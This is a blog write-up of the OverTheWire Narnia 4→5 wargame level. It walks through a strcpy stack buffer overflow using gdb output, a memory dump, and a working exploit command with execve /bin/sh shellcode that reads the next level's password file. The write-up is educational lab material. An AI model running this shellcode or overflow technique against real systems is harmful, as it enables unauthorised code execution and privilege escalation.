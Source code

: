 ```yaml
---
layout:     post
title:      "Overthewire.org - Narnia 4 -> 5"
subtitle:   "Write-Up"
date:       2017-03-09 0:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
category: Overthewire
---
```


<h1>Introduction</h1>

<p>Today we'll be dealing with another reverse engineering challenge from Overthewire - pretty quick, but fun as always!  </p>

<h1>Challenge</h1>

<p>This code is a lot shorter, compared to the previous ones, making it much easier to analyze. </p>

{% highlight c %}
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
	int i;
	char buffer[256];

	for(i = 0; environ[i] != NULL; i++)
		memset(environ[i], '\0', strlen(environ[i]));

	if(argc>1)
		strcpy(buffer,argv[1]);

	return 0;
}

{% endhighlight %}

<p>Yeah, we have a buffer of 256 bytes, which gets the content, using dangerous <b>strcpy</b> function straight from the argument variable. This challenge looks a lot like the second one, so maybe we will also be able to put shellcode somewhere in the buffer? </p>

<p>Actually, after a little bit of tinktering in <b>gdb</b>, I've found that providing the binary with 273 "A" letters and 7 "B" letters will overwrite our buffer, together with return address.  </p>

{% highlight bash %}
(gdb) run $(python -c 'print "A" * 272 + "BBBBBBB"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /games/narnia/narnia4 $(python -c 'print "A" * 272 + "BBBBBBB"')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
{% endhighlight %}

<p>Now let's take a look at the memory. </p>

{% highlight text %}
0xffffd800:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd810:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd820:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd830:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd840:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd850:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd860:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd870:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd880:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd890:	0x41414141	0x41414141	0x41414141	0x41414141
---Type <return> to continue, or q <return> to quit---
0xffffd8a0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd8b0: 0x41414141  0x41414141  0x42424141  0x42424242
0xffffd8c0: 0x00004242  0x00000000  0x00000000  0x00000000
0xffffd8d0: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd8e0: 0x00000000  0x00000000  0x00000000  0x00000000
{% endhighlight %}

<p>From this we know that we have somewhere around 272 bytes for the shellcode with some additional bytes that will overwrite the return address. Now we can construct the command, using code from the previous levels. </p>

<p>As we already know that our payload is 25 bytes in size, we will have to: firstly write 247 "A" letters, then 25 bytes of shellcode and lastly overwriting the <b>EIP register</b>, which then will be placed somewhere in the middle of "A" letters. By looking at the debug of the memory, I'm going to choose it as <b>0xffffd850</b>.  </p>

{% highlight bash %}
narnia4@melinda:/narnia$ ./narnia4 $(python -c'print "A" * 247 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x50\xd8\xff\xff"')
$ cat /etc/narnia_pass/narnia5
********
{% endhighlight %}

<p>Once again we have the password to the next level! </p>

<h1>Conclusion</h1>
<p>Another big thanks to <a href="http://overthewire.org/wargames/">OverTheWire</a>! I'm looking forward to the next challenges! </p>


<p>~ Stay safe!</p>
